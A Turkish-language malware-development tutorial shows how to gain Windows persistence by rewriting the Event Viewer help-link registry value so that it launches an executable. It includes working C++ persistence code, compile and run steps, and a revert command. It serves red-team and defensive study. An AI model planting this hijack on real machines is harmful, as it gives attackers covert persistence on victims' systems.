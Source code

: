 \newpage
\subsection{80. Kötü Amaçlı Yazılım Geliştirme: Kalıcılık - Bölüm 14. Olay Görüntüleyici yardım bağlantısı. Basit C++ örneği.}

﷽

![pers](./images/74/2022-10-09_05-28.png){width="80%"}    

Bu gönderi, Windows Olay Görüntüleyicisi yardım bağlantısını değiştirerek kötü amaçlı yazılım kalıcılığı sağlama üzerine yaptığım kendi araştırmamın sonucudur.     

### olay görüntüleyici yardım bağlantısı (event viewer help link)

Windows’un Olay Görüntüleyicisi on yılı aşkın süredir var. Olay Görüntüleyici, bilgisayarınızda Windows’un tuttuğu sınırlı sayıda günlük kaydını inceler. Günlükler, düz içerik içeren `XML` biçimli metin dosyalarıdır.     

![pers](./images/74/2022-10-09_05-10.png){width="80%"}    

Olay Görüntüleyicinin kullanıcı arayüzünün bir parçası olarak, *Olay Günlüğü Çevrimiçi Yardımı* bağlantısı sağlanır:    

![pers](./images/74/2022-10-09_05-11.png){width="80%"}    

Bağlantıya tıklandığında, Windows kayıt defterinde tanımlanan varsayılan bir Microsoft yardım bağlantısı açılır `HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Event Viewer`:     

![pers](./images/74/2022-10-09_05-13.png){width="80%"}    

Tahmin ettiğiniz gibi, `MicrosoftRedirectionURL` anahtarının değerinin bir saldırganın çıkarlarına uygun şekilde değiştirilebileceğini varsaymak mantıklıdır. İşte numara burada.    

### pratik örnek

Hadi pratik bir örneğe bakalım. Öncelikle her zamanki gibi kötü amaçlı uygulamayı oluşturalım, `meow-meow` "malware" (`hack.cpp`):    

```cpp
/*
hack.cpp
evil app for windows persistence via
event viewer help link update
author: @cocomelonc
https://cocomelonc.github.io/malware/2022/10/09/malware-pers-14.html
*/
#include <windows.h>
#pragma comment (lib, "user32.lib")

int WINAPI WinMain(HINSTANCE hInstance, HINSTANCE hPrevInstance, LPSTR 
lpCmdLine, int nCmdShow) {
  MessageBox(NULL, "Meow-meow!", "=^..^=", MB_OK);
  return 0;
}
```

Ardından, kalıcılık için bir program oluşturalım (`pers.cpp`):     

```cpp
/*
pers.cpp
windows persistence via
replace event viewer help link
author: @cocomelonc
https://cocomelonc.github.io/malware/2022/10/09/malware-pers-14.html
*/
#include <windows.h>
#include <string.h>

int main(int argc, char* argv[]) {
  HKEY hkey = NULL;

  // event viewer
  const char* app = 
  "SOFTWARE\\Microsoft\\Windows NT\\CurrentVersion\\Event Viewer";

  // evil app
  const char* exe = 
  "file://Z:\\2022-10-09-malware-pers-14\\hack.exe";

  // app
  LONG res = RegOpenKeyEx(HKEY_LOCAL_MACHINE, (LPCSTR)app, 0 , KEY_WRITE, &hkey);
  if (res == ERROR_SUCCESS) {
    // update registry key value
    // reg add "HKLM\Software\Microsoft\Windows NT\CurrentVersion\Event 
    // Viewer" /v "MicrosoftRedirectionUrl" /t REG_SZ /d 
    // "file://...\hack.exe" /f
    RegSetValueEx(hkey, (LPCSTR)"MicrosoftRedirectionUrl", 0, REG_SZ, (unsigned char*)exe, strlen(exe));
    RegCloseKey(hkey);
  }

  return 0;
}
```

Gördüğünüz gibi, mantık basittir, sadece kayıt defteri anahtarının değerini `file://Z:\2022-10-09-malware-pers-14\hack` olarak günceller.    

### demo

Hadi her şeyi aksiyon halinde görelim. "Kötü amaçlı yazılımı" derleyelim:    

```bash
x86_64-w64-mingw32-g++ -O2 hack.cpp -o hack.exe \
-I/usr/share/mingw-w64/include/ -s \
-ffunction-sections -fdata-sections -Wno-write-strings \
-fno-exceptions -fmerge-all-constants \
-static-libstdc++ -static-libgcc -fpermissive
```

![pers](./images/74/2022-10-09_17-31.png){width="80%"}    

Doğruluğunu kontrol edelim:    

![pers](./images/74/2022-10-09_05-38_1.png){width="80%"}    

ve kalıcılık betiğini derleyelim:    

```bash
x86_64-w64-mingw32-g++ -O2 pers.cpp -o pers.exe \
-I/usr/share/mingw-w64/include/ -s \
-ffunction-sections -fdata-sections -Wno-write-strings \
-fno-exceptions -fmerge-all-constants \
-static-libstdc++ -static-libgcc -fpermissive
```

![pers](./images/74/2022-10-09_05-24.png){width="80%"}    

Hedef makinedeki varsayılan kayıt defteri anahtarlarını kontrol edelim - benim durumumda `Windows 10 x64`:    

```powershell
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Event Viewer" /s
```

![pers](./images/74/2022-10-09_05-25.png){width="80%"}    

Ardından, aynı şekilde hedef makinede çalıştıralım - benim durumumda `Windows 10 x64`:    

```powershell
.\pers.exe
```    

![pers](./images/74/2022-10-09_05-26.png){width="80%"}    
    
Son olarak, *Olay Günlüğü Çevrimiçi Yardımı* (*Event Log Online Help*) bağlantısına tekrar tıklamayı deneyelim:

![pers](./images/74/2022-10-09_05-11.png){width="80%"}    

![pers](./images/74/2022-10-09_05-27.png){width="80%"}    

Ardından, `hack.exe`'nin özelliklerine Process Hacker 2'de baktım:    

![pers](./images/74/2022-10-09_05-34.png){width="80%"}    

![pers](./images/74/2022-10-09_05-30.png){width="80%"}    

Bu, bağlantıya tıklandığında `mmc.exe`'nin başlatıldığını ve bunun da kötü amaçlı davranışı tetiklediğini gösteriyor.    

Deneylerden sonra geri almak için şu komutu çalıştırın:    

```powershell
reg add "HKLM\Software\Microsoft\Windows NT\CurrentVersion\Event Viewer" /v 
"MicrosoftRedirectionUrl" /t REG_SZ /d 
"http://go.microsoft.com/fwlink/events.asp" /f
```

![pers](./images/74/2022-10-09_05-38.png){width="80%"}    

veya sanal makineyi geri yükleyin.     

> Bu, yönetici düzeyinde bir kötü amaçlı yazılım kalıcılık tekniğidir, bu nedenle yalnızca yönetici izinleriyle çalışır.       

Bu taktiğin ve tekniğin vahşi doğada herhangi bir APT (Gelişmiş Kalıcı Tehdit) tarafından kullanılıp kullanılmadığını bilmiyorum, ancak bu gönderinin, özellikle yazılım geliştirirken, mavi takım çalışanlarının bu ilginç teknik hakkında farkındalığını artırmasını ve kırmızı takım çalışanlarının cephaneliğine bir silah daha eklemesini umuyorum.    

[Event Viewer](https://learn.microsoft.com/en-us/shows/inside/event-viewer)    
[RegOpenKeyEx](https://docs.microsoft.com/en-us/windows/win32/api/winreg/nf-winreg-regopenkeyexa)    
[RegSetValueEx](https://docs.microsoft.com/en-us/windows/win32/api/winreg/nf-winreg-regsetvalueexa)    
[RegCloseKey](https://docs.microsoft.com/en-us/windows/win32/api/winreg/nf-winreg-regclosekey)    
[reg query](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/reg-query)      
[github'taki kaynak kod](https://github.com/cocomelonc/meow/tree/master/2022-10-09-malware-pers-14)        

